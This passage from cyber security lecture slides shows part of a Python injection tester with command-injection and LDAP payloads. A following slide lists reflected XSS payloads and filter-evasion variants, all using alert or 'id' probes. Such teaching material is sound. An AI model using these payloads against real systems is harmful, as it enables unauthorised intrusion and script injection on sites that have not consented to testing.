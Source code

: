 ```python
                '&& id'
            ],
            'ldap': [
                '*)(uid=*',
                '*)(|(uid=*))',
                '*)(&(uid=*))'
            ]
        }
    
    def test_all_injections(self):
        """Test all injection types"""
        results = {}
        
        for injection_type, payloads in self.payloads.items():
            results[injection_type] = []
            
            for payload in payloads:
                result = self.test_payload(payload)
                if result['vulnerable']:
                    results[injection_type].append({
                        'payload': payload,
                        'response_time': result['response_time'],
                        'evidence': result['evidence']
                    })
        
        return results
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 31 | Author: Milav Dabgar
</div>

---
layout: default
---

# Cross-Site Scripting (XSS) Testing

<div class="grid grid-cols-2 gap-8">

<div>

## 🚨 XSS Attack Types and Testing

### ⚡ Reflected XSS
```html
<!-- Basic reflected XSS payloads -->
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src="javascript:alert('XSS')">

<!-- Filter evasion -->
<ScRiPt>alert('XSS')</ScRiPt>
<script>alert(String.fromCharCode(88,83,83))</script>
"><script>alert('XSS')</script>
'><script>alert('XSS')</script>
```
